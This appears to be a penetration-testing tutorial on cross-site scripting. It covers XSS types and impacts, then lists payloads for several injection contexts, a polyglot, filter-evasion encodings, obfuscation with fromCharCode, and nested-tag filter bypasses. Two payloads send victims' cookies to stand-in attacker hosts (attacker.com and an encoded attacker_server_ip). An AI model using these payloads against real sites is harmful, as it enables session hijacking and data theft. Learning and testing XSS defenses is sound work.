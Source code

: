 ## Types of XSS

- **Reflected XSS**: This attack relies on the user-controlled input reflected to the user. For instance, if you search for a particular term and the resulting page displays the term you searched for (**_reflected_**), the attacker would try to embed a malicious script within the search term.
- **Stored XSS**: This attack relies on the user input stored in the website’s database. For example, if users can write product reviews that are saved in a database (**_stored_**) and being displayed to other users, the attacker would try to insert a malicious script in their review so that it gets executed in the browsers of other users.
- **DOM-based XSS**: This attack exploits vulnerabilities within the Document Object Model (**DOM**) to manipulate existing page elements without needing to be reflected or stored on the server. This vulnerability is the least common among the three.
## Implications of XSS
There are many implications of XSS. Below, we list a few of them.

**Session hijacking**
As XSS can be used to steal session cookies, attackers can take over the session and impersonate the victim if successful.

**Phishing and credential theft**
Leveraging XSS, attackers can present a fake login prompt to the user. In one recent case, the browser’s page was partially hidden by a dialogue box requesting users to connect to their cryptocurrency wallet.

**Social engineering**
Using XSS, an attacker can create a legitimate-looking pop-up or alert within a trusted website. This can trick users into clicking malicious links or visiting malicious websites.

**Content manipulation and defacement**
In addition to phishing and social engineering, an attacker might use XSS to change the website for other purposes, such as inflicting damage on the company’s reputation.

**Data exfiltration**
XSS can access and exfiltrate any information displayed on the user’s browser. This includes sensitive information such as personal data and financial information.

**Malware installation**
A sophisticated attacker can use XSS to spread malware. In particular, it can deliver drive-by download attacks on the vulnerable website.

## Reflected XSS
**Reflected XSS** is a type of XSS vulnerability where a malicious script is reflected to the user’s browser, often via a **crafted URL** or **form submission**. Consider a search query containing `<script>alert(document.cookie)</script>`; many users wouldn’t be suspicious about such a URL, even if they look at it up close. If processed by a vulnerable web application, it will be executed within the context of the user’s browser.

## Stored XSS
Stored XSS, or Persistent XSS, is a web application security vulnerability that occurs when the application stores user-supplied input and later embeds it in web pages served to other users without proper sanitization or escaping. Examples include web forum posts, product reviews, user comments, and other data stores. In other words, stored XSS takes place when user input is saved in a data store and later included in the web pages served to other users without adequate escaping.

## Context

The injected payload will most likely find its way within one of the following:

- Between HTML tags
- Within HTML tags
- Inside JavaScript

When XSS happens between HTML tags, the attacker can run `<script>alert(document.cookie)</script>`.

However, when the injection is within an HTML tag, we need to end the HTML tag to give the script a turn to load. Consequently, we might adapt our payload to `><script>alert(document.cookie)</script>` or `"><script>alert(document.cookie)</script>` or something similar that would fit in the context.

If your code is within a JavaScript string, you can close the string with `'`, complete the command with a semicolon, execute your command, and comment out the rest of the line with `//`. You can try something like this `';alert(document.cookie)//`

#### Polyglot
An XSS polyglot i a type of XSS payload that executes in multiple contexts. Regardless of the tag, and it's used to bypass filters. Take a look at this polyglot created by EdOverflow at https://polyglot.innerht.ml/
```
javascript:"/*\"/*`/*' /*<template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```


## Evasion
Various repositories can be consulted to build your custom XSS payload. This gives you plenty of room for experimentation. One such list is the [XSS Payload List](https://github.com/payloadbox/xss-payload-list).
However, sometimes, there are filters blocking XSS payloads. If there is a limitation based on the payload length, then [Tiny XSS Payloads](https://github.com/terjanq/Tiny-XSS-Payloads) can be a great starting point to bypass length restrictions.

If XSS payloads are blocked based on specific blocklists, there are various tricks for evasion. For instance, a horizontal tab, a new line, or a carriage return can break up the payload and evade the detection engines.

- Horizontal tab (TAB) is `9` in hexadecimal representation
- New line (LF) is `A` in hexadecimal representation
- Carriage return (CR) is `D` in hexadecimal representation

Consequently, based on the [XSS Filter Evasion Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html), we can break up the payload. `<IMG SRC="javascript:alert('XSS');">` in various ways:

```javascript
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```
## Alternative JavaScript Syntax
Often application sanitize `<script>` tags. 
Instead of closing out an img tag and inserting a script tag, we can insert JavaScript code directly as an attribute:
```JavaScript
<img src="123" onerror="alert('XSS');"/>
```
Or we can inject in an anchor tag
```JavaScript
<a href="javascript:alert('xss')>Click me!</a>
```

## Capitalization and Encoding
We can mix encodings and capitalized letters to confuse filters:
``` HTML
<sCrIPT>location='http://attacker.com/c='+document.cookie;</sCrIPT>
```
Or using the fromCharCode() JS function to turn numbers into char:
```HTML
<scrIPT> location=String.fromCharCode(104, 116, 116, 112, 58, 47, 47, 97, 116, 116, 97, 99, 107, 101, 114, 95, 115, 101, 114, 118, 101, 114, 95, 105, 112, 47, 63, 99, 61)+document.cookie;</scrIPT>
```

## Filter Logic Errors
We can exploit in any errors in the filter logic. For Example, sometimes applications removal all `<script>`tags in the user input, but do it only once. If that's the case, you can use a payload like this:
```HTML
<scrip<script>t> #payload </scrip</script>t>
```
Once the filter removes the complete `<script>` tag:
```HTML
<script> #payload </script>
```

